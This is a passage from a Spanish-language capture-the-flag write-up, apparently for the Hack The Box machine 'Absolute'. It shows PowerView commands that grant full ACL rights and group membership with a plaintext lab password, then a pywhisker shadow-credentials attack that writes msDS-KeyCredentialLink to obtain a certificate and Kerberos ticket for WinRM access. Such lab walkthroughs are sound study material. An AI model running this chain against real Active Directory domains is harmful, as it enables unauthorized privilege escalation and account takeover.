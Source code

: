 ![imagen5](/assets/images/Absolute/absolute5.png)

Para eso podemos usar powershell para importar PowerView.ps1 para que primero ingresemos al grupo Network Audit al usuario m.lovegod y después asignamos los permisos totales a este.

```powershell
PS C:\Users\gu3ro\Desktop> Import-Module .\PowerView.ps1
PS C:\Users\gu3ro\Desktop> $SecPassword = ConvertTo-SecureString "AbsoluteLDAP2022!" -AsPlainText -Force
PS C:\Users\gu3ro\Desktop> $Cred = New-Object System.Management.Automation.PSCredential("Absolute.htb\m.lovegod", $SecPassword)
PS C:\Users\gu3ro\Desktop> Add-DomainObjectAcl -Credential $Cred -TargetIdentity "Network Audit" -Rights all -DomainController dc.absolute.htb -PrincipalIdentity "m.lovegod"
PS C:\Users\gu3ro\Desktop> Add-ADPrincipalGroupMembership -Identity m.lovegod -MemberOf "Network Audit" -Credential $Cred -server dc.absolute.htb
```
Haciendo esto ya podemos abusar del ACL asignado hacia el usuario winrm_usar. Para esto podemos usar primero pywhisker para editar el msD5-KeyCredentialLink para obtener un certificado y tener un archivo pfx para después obtener el TGT del usuario.

```shell
❯ sudo python3 ./pywhisker/pywhisker.py -d absolute.htb -u m.lovegod -t winrm_user -k --no-pass --action add
[*] Searching for the target account
[*] Target user found: CN=winrm_user,CN=Users,DC=absolute,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: f3ec980c-8a84-5987-ebf9-81b6e9517a82
[*] Updating the msDS-KeyCredentialLink attribute of winrm_user
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[+] Saved PFX (#PKCS12) certificate & key at path: sEHe3twE.pfx
[*] Must be used with password: yYY7CyVyJeBXdRvbWyIG
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
```
Ahora usamos la herramienta gettgtpkinit para obtener el ticket guardándolo en la extensión ccache, al tener ya listo el ticket, podemos logearnos por winrm ya que el usuario está en el grupo de remote management users. Para hacer uso de kerberos en evil-winrm editamos el archivo /etc/krb5.conf para que pueda reconocer el dominio.
